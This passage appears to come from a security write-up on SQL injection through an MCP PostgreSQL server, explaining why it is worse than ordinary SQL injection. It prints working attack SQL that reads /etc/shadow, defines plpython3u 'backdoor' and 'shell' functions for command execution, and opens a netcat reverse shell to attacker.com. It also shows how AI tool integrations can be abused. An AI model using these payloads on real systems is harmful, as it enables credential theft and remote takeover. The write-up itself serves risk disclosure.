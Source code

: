 #### 4. **Command Execution (via PostgreSQL Extensions)**
```sql
-- Read system configuration
SELECT pg_read_file('/etc/shadow');

-- With plpython3u extension (common in analytics setups):
CREATE OR REPLACE FUNCTION backdoor() RETURNS text AS $$
import subprocess
result = subprocess.run(['whoami'], capture_output=True, text=True)
return result.stdout
$$ LANGUAGE plpython3u;

SELECT backdoor(); -- Returns: postgres

-- Full reverse shell
CREATE OR REPLACE FUNCTION shell(cmd text) RETURNS text AS $$
import subprocess
return subprocess.check_output(cmd, shell=True, text=True)
$$ LANGUAGE plpython3u;

SELECT shell('nc -e /bin/bash attacker.com 4444');
```

## Why This Is Exponentially Worse Than Regular SQL Injection

### The Permission Escalation Multiplier

#### Traditional SQL Injection Impact:
- ✅ Access to web application's data
- ✅ Limited by application database user permissions  
- ✅ Usually read-only or limited write access
- ✅ Contained to single database
- ✅ Network-detectable queries

#### MCP SQL Injection Impact:
- 🔥 Access to **entire database infrastructure**
- 🔥 **Administrative privileges** (SUPERUSER)
- 🔥 **Cross-database access** via CREATE DATABASE
- 🔥 **File system operations** via extensions
- 🔥 **Command execution** via stored procedures
- 🔥 **Invisible to network monitoring** (local STDIO)

## The Enterprise PostgreSQL Reality

### What enterprises think they're doing:
```json
{
  "database_connection": "postgresql://app_reader:readonly@db/analytics",
  "privileges": "SELECT only on specific tables",
  "risk_level": "Low - read-only access"
}
```
